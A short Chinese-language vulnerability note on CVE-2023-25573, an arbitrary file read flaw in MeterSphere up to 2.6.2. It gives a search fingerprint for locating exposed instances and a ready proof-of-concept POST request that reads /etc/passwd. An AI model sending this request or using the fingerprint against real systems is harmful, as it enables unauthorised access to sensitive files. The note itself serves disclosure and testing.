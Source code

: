 # 

# Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

MeterSphere 是一站式开源持续测试平台, 涵盖测试跟踪、接口测试、UI 测试和性能测试等功能，全面兼容 JMeter、Selenium 等主流开源标准。

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包。

## 漏洞影响

```
Metersphere <=2.6.2
```

## 网络测绘

```
body="Metersphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

验证POC

```
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![image-20230424163512801](images/image-20230424163512801.png)
